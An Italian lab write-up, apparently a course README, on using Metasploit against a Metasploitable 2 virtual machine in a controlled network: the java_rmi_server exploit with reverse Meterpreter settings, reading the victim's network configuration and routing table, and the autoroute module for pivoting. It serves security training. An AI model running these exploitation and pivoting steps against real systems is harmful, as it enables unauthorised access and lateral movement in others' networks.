


# Progetto S7/L5 - Altri utilizzi vari di Metasploit 🚀

## 📋 Descrizione
Questo progetto esplora l'uso avanzato di **Metasploit Framework**, concentrandosi su:
- **Sfruttamento di vulnerabilità** (es. Java RMI sulla porta 1099).
- **Raccolta di informazioni** su configurazioni di rete e tabelle di routing della macchina target.

**Obiettivo:** Dimostrare competenza nell'utilizzo di Metasploit per raccogliere informazioni e accedere ai sistemi vulnerabili in un ambiente controllato.

---

## 🛠️ Ambiente di test

- **Macchina attaccante:** Kali Linux
  - **IP:** 192.168.50.165
- **Macchina vittima:** Metasploitable 2
  - **IP:** 192.168.50.3
  - **Servizio vulnerabile:** Java RMI (porta 1099)

---

## ⚙️ Passaggi eseguiti

### 1️⃣ Configurazione della rete
Per garantire la comunicazione tra le macchine:
- La macchina Metasploitable è stata configurata con un IP statico: `192.168.50.3`.
- Verificata la connettività con il comando:
  ```bash
  ping 192.168.50.3
  ```

---

### 2️⃣ Sfruttamento della vulnerabilità

#### Modulo usato:
- **Exploit:** `exploit/multi/misc/java_rmi_server`

#### Configurazione del modulo:
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS 192.168.50.3
set RPORT 1099
set LHOST 192.168.50.165
set LPORT 4444
exploit
```

#### Risultato:
- Ottenuta una sessione **Meterpreter** sulla macchina vittima.

---

### 3️⃣ Raccolta di informazioni 🕵️‍♂️

#### Configurazione di rete:
- Comando eseguito da Meterpreter:
  ```bash
  ifconfig
  ```
  - Output salvato in `netconfig.txt`.

#### Tabella di routing:
- Recuperata la tabella di routing:
  ```bash
  cat /proc/net/route
  ```
  - Output salvato in `routing_table.txt`.

---

### 4️⃣ Utilizzo del modulo `autoroute`

Per esplorare ulteriormente la rete:
- **Modulo usato:** `post/multi/manage/autoroute`
- Configurazione:
  ```bash
  use post/multi/manage/autoroute
  set SESSION 1
  run
  ```
- **Risultato:** Aggiunto il route alla rete `192.168.50.0/24`.

---

## 📂 File generati

- `netconfig.txt`: Configurazione di rete della macchina vittima.
- `routing_table.txt`: Tabella di routing della macchina vittima.

---

## 📸 Screenshot

### Configurazione di rete


### Tabella di routing


---

## 💡 Conclusioni

L'esercizio ha permesso di:
1. Sfruttare una vulnerabilità nota per ottenere l'accesso remoto.
2. Raccogliere informazioni critiche sulla macchina vittima.
3. Configurare Metasploit per estendere il controllo alla rete target.

Questo progetto dimostra la versatilità di Metasploit non solo per l'exploit di vulnerabilità, ma anche per la raccolta di informazioni e la gestione avanzata delle reti. 🛡️
